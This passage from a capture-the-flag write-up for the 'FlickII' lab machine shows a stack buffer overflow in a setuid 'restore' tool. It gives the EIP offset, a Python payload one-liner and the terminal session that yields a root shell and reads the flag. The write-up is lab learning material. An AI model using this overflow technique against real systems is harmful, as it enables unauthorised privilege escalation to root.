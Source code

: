 >```

EIP is @72
>```python
>$ python -c 'print "A"*72 + "\x6a\x1f\x40"'
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAj@
>```

pwn time:

>```bash
>bash-4.2$ pwd
>/tmp
>bash-4.2$ touch backup.tar.gz
>bash-4.2$ cd /usr/local/bin
>bash-4.2$ ./restore
>Restore tool v0.1
>Enter the path to the backup.tar.gz: /tmp/
>/tmp/
>Path is: /tmp/
>Enter the output directory: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAj^_@
>Output directory is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAj@
>[root@fII bin]# id
>uid=0(root) gid=0(root) groups=0(root),1001(bryan),1002(sean)
>[root@fII bin]# 
>```

## root

Grab that flag!

>```
>[root@fII bin]# cat /root/flag
>
>  █████▒██▓     ██▓ ▄████▄   ██ ▄█▀ ██▓ ██▓
>▓██   ▒▓██▒    ▓██▒▒██▀ ▀█   ██▄█▒ ▓██▒▓██▒
>▒████ ░▒██░    ▒██▒▒▓█    ▄ ▓███▄░ ▒██▒▒██▒
>░▓█▒  ░▒██░    ░██░▒▓▓▄ ▄██▒▓██ █▄ ░██░░██░
>░▒█░   ░██████▒░██░▒ ▓███▀ ░▒██▒ █▄░██░░██░
> ▒ ░   ░ ▒░▓  ░░▓  ░ ░▒ ▒  ░▒ ▒▒ ▓▒░▓  ░▓  
> ░     ░ ░ ▒  ░ ▒ ░  ░  ▒   ░ ░▒ ▒░ ▒ ░ ▒ ░
> ░ ░     ░ ░    ▒ ░░        ░ ░░ ░  ▒ ░ ▒ ░
>           ░  ░ ░  ░ ░      ░  ░    ░   ░  
>                   ░                       
>
> You have successfully completed FlickII!
>
> I hope you learnt as much as I did while
> making it! Any comments/suggestions etc,
> feel free to catch me on freenode in
> #vulnhub or on twitter @leonjza
>```

